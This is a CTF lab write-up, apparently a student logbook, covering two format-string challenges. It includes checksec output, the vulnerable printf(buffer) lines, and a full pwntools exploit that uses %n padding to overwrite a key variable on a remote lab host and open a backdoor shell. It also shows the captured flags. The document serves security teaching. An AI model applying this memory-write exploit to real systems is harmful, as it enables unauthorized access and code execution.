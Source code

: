 # CTF - WEEK 7

## Challenge #1

- We need to execute the command 'checksec program', in order to see the definition and information of the file **program**.

![Terminal print of task 1 - checksec](CTFs/Img/Semana7-Desafio1/1.checksec.png)

We can conclude that:

- There is a _canary_ preventing the change of the return address of functions. This canary has a certain values in the beginning of the execution of the function and is located right before the return value. Before it gets to the return address of the function, the _canary_ will compare the value that is at the end of the execution in the canary address with the value stored in the beginning of the execution. If it's different, the stack changed.
- The _stack_ has execution permission (NX) - We can run files that we inject (example, shellcode instructions).
- The position on the binary aren't randomized (PIE) - we can get the addresses
  of variables/registers using a debugger, because the memeory address of all variables don't change.

### Qual é a linha do código onde a vulnerabilidade se encontra?

```c
scanf("%32s", &buffer);
printf("You gave me this: ");
printf(buffer); // vulnerability
```

### O que é que a vulnerabilidade permite fazer?

This vulnerability allows us to read from and write to memory addresses that we arent't supposed to have permissons. As so, this allows us to read the **flag** global variable.

### Qual é a funcionalidade que te permite obter a flag?

By using '%s' on `printf`'s format string, we can read the contents of the flag
char array. To do this, we just need to obtain the address of said variable.

Using the '%s? format string, we ca read the contents of the flag char array. In order to do this, we need the address of the variable flag.

We will use the debugger gdb to get the address of the flag global variable.

### Flag's memory address

![Terminal print of task 1 - _gdb_ debugger](CTFs/Img/Semana7-Desafio1/2.debugger-gdb.png)

- As we can see in the picture above, the address of the flag global variable is **0x804c060**.

### Exploit

![Terminal print of task 1 - exploit_example.py file](CTFs/Img/Semana7-Desafio1/3.exploitFile.png)

- Now, in order to get the flag, we just need to compile the exploit_example.py file and check the result flag.

![Terminal print of task 1 - result (flag)](CTFs/Img/Semana7-Desafio1/4.result_exploit_flag.png)

`flag{5b54eade3016fad2273920d8064491}`

## Desafio #2

### checksec

```
[11/24/21]seed@VM:~/CTF/6$ checksec --file=program --extended
  RELRO : Partial RELRO
  STACK CANARY: Canary found
  NX: NX enabled
  PIE: No PIE
  Clang CFI: No Clang CFI found
  SafeStack: No SafeStack found
  RPATH: No RPATH
  RUNPATH	: No RUNPATH
  Symbols: 79 Symbols
  FORTIFY: Yes
  Fortified: 0
  Fortifiable:  1
  FILE: program
```

### Qual é a linha do código onde a vulnerabilidade se encontra?

```c
scanf("%32s", &buffer);
(...)
printf(buffer); // Vulnerability
```

### O que é que a vulnerabilidade permite fazer?

The vulnerability allows us to change the contents of the `key` variable in
order to access the restricted area of the code.

### A flag é carregada para memória? Ou existe alguma funcionalidade que podemos utilizar para ter acesso à mesma?

The flag is not loaded to memory, but it is present in a file on the target
machine. The functionality that we can exploit to gain access to said file is
obtaining the correct key, activating the backdoor on the server. This spawns a
shell that we can use to read the file contents.

### Para desbloqueares essa funcionalidade o que é que tens de fazer?

To unlock this functionality, we abused the `%n` on `printf`. Our input is
passed as the format string of `printf` without any sanitation. We start by
using `gdb` to obtain the address of the `key` global variable. If we write the
correct number of chars using `printf` (0xbeef), calling `%n` on the key's
correct address will write 0xbeef to it, unlocking the backdoor.

Our buffer isn't big enough to write the needed quantity of chars, so we make
use of number padding to print more characters. This makes it so we can't have
the address of `key` at the beginning of the variable because calling `%`
commands advances `printf`'s pointer forward. We write enough to have printed
0xbeef chars, and then advance the pointer forward to the first available
position that is multiple of 4.

### Exploit

```py
#!/usr/bin/env python3
from pwn import *

LOCAL = False

if LOCAL:
    local = './program'
    p = process(local)
else:
    url = '10.227.243.188'
    port = 4005
    p = remote(url, port)

p.recvuntil(b"...")

content = bytearray(0x00 for i in range(32))
password = 0xbeef

# the -24 is explained below
pad_str = "%0" + str(password - 24) + "x"
content[0:len(pad_str)] = (pad_str).encode('latin-1')

x_str = "%x"
x_len = len(x_str)
n = 3
for i in range(len(pad_str), len(pad_str) + x_len * n, x_len):
    content[i:i+x_len] = (x_str).encode('latin-1')

content[14:16] = ("%n").encode('latin-1')
val = 0x0804c034
content[16:20] = (val).to_bytes(4, byteorder='little')

with open('badfile', 'wb') as f:
  f.write(content)

p.sendline(content)
p.recvuntil(b"You gave")
p.interactive()
```

We subtract 24 from the **password** because the '%x's used print some
characters:

- first '%x' - 38343025 - this one is the one that is left-padded with zeros.
- second '%x' - 78393738
- third '%x' - 78257825
- fourth '%x' - 78256e2578254

If we sum the length of the results of the last 3 '%x', we get 24. These numbers
come from the format string we constructed.

### Flag

`flag{1174a93d4e4fa9e0e19f4cba8ee8d8d8}`

![Acquiring flag from challenge 2](./LOGBOOK6_img/cft_2.png)
